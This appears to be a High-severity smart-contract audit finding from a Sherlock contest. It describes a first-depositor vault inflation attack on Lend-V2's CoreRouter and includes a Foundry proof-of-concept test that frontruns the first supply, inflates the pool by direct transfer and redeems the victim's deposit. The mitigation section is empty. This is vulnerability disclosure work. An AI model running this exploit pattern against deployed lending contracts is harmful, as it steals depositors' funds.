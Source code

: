 Restless Tan Goat

High

# User funds can be stolen by a vault inflation attack

### Summary

An attacker can frontrun the first call to `CoreRouter::supply()` by supplying a small amount first and then artificially inflating the underlying token balance of the `LToken` contract with a direct `transfer()`. As a result, the first supply by a legitimate user will mint 0 LTokens thus giving the ownership over the whole share of the pool to the attacker.

### Root Cause

The calculation for [`mintTokens`](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L80) in `CoreRouter` will round down to 0 if the inflation attack is done correctly, as the exchange rate will become larger than the amount of underlying tokens in. Consequently the legitimate user's `totalInvestment` in `LendStorage` will be set to 0.

### Internal Pre-conditions

1. Protocol contracts need to be deployed.
2. Attacker must observe first supply transaction being submitted.

### External Pre-conditions

N/A

### Attack Path

1. A user submits the first supply for a particular LToken.
2. An attacker frontruns the user's transaction.
3. The attacker supplies a small amount of the underlying token to `CoreRouter`.
4. The attacker directly transfers underlying tokens to the `LToken` contract.
5. The user's `supply()` transaction is executed, resulting in 0 LTokens minted.
6. Attacker calls `redeem()` and receives both his initially invested underlying tokens and the first user's assets.

### Impact

An attacker can steal the first supplier's deposit. If he manages to redeem it before another user has deposited into the pool, he can perform the attack multiple times.

### PoC

Paste the following code in `test/TestSupplying.t.sol`.
Use `forge test --match-test test_that_first_deposit_attack_is_feasible -vvv` to run the test.

```solidity
    function test_that_first_deposit_attack_is_feasible() public {
        address attacker = makeAddr("attacker");
        address legitimateUser = makeAddr("legitimateUser");

        address token = supportedTokens[0];
        address lToken = lendStorage.underlyingTolToken(token);

        uint256 attackerUnderlyingTokenBalanceBefore = 2_000_000e18;
        uint256 legitimateUserUnderlyingTokenBalanceBefore = 1_000_000e18;
        //mint underlying tokens to the attacker
        ERC20Mock(token).mint(attacker, attackerUnderlyingTokenBalanceBefore);
        //mint underlying tokens to the legitimate user
        ERC20Mock(token).mint(legitimateUser, legitimateUserUnderlyingTokenBalanceBefore);

        console2.log("Before attack:");
        console2.log("attacker's underlying token balance:", attackerUnderlyingTokenBalanceBefore);
        console2.log("legitimate user's underlying token balance:", legitimateUserUnderlyingTokenBalanceBefore);
        
        //attacker observes user trying to make the first deposit, and frontruns the user's deposit transaction

        //attacker mints LToken by calling supply
        _supply(attacker, "attacker", token, 2 * 1e8);

        //attacker inflates the underlying token balance of CoreRouter by transferring his LTokens
        vm.prank(attacker);
        ERC20Mock(token).transfer(lToken, 1_000_000e18);

        //legitimate user performs supply through the CoreRouter
        _supply(legitimateUser, "legitimateUser", token, legitimateUserUnderlyingTokenBalanceBefore);

        uint256 legitimateUserTotalInvestment = lendStorage.totalInvestment(legitimateUser, lToken);
        console2.log("legitimateUser's total investment:", legitimateUserTotalInvestment);

        //attacker redeems his share
        _redeem(attacker, "attacker", payable(lToken), 1);

        uint256 attackerUnderlyingTokenBalanceAfter = IERC20(token).balanceOf(attacker);
        
        console2.log("After attack:");
        console2.log("attacker's underlying token balance:", attackerUnderlyingTokenBalanceAfter);

        assert(attackerUnderlyingTokenBalanceAfter >= attackerUnderlyingTokenBalanceBefore + legitimateUserUnderlyingTokenBalanceBefore);
    }

    function _supply(address supplier, string memory _alias, address underlying, uint256 amount) internal {
        vm.startPrank(supplier);

        console2.log("%s supplying %d", _alias, amount);

        //mint underlying token
        ERC20Mock(underlying).mint(supplier, amount);
        
        //approve router and supply
        IERC20(underlying).approve(address(coreRouter), amount);
        coreRouter.supply(amount, underlying);

        vm.stopPrank();
    }

     function _redeem(address redeemer, string memory _alias, address payable lToken, uint256 amount) internal {
        vm.startPrank(redeemer);

        console2.log("%s redeeming %d LTokens", _alias, amount);
        
        coreRouter.redeem(amount, lToken);

        vm.stopPrank();
    }
```

### Mitigation

_No response_